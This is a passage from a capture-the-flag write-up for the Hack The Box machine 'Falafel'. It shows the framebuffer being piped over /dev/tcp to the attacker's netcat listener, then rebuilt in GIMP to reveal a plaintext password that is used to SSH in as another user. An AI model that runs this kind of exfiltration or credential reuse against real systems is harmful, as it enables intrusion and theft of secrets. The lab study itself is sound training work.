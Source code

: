 First, let's move the video output to kali.

```bash
moshe@falafel:/dev/shm$ cat /dev/fb0 > /dev/tcp/10.10.14.4/5736
```

Kali :

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ nc -nlvp 5736 > falafel.raw
listening on [any] 5736 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.73] 41570
```

Then, I can check the video resolution by reading `/sys/class/graphics/fb0/virtual_size`.

```bash
moshe@falafel:/dev/shm$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```

To open the raw image file, I used GIMP.
For the settings, I chose the following;
- File Type : Raw Image Data
- Width : 1176
- Height : 885
- Pixel Format : RGB565

Then I can see the following image.

![](attachments/falafel_13.png)

It seems that the user `yossi` tried to change its password to `MoshePlzStopHackingMe!`.
However, he included the plaintext password on command line by mistake.

Let me use the credential to open a ssh shell.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ ssh yossi@10.10.10.73              
yossi@10.10.10.73's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Expanded Security Maintenance for Infrastructure is not enabled.

159 updates can be applied immediately.
51 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```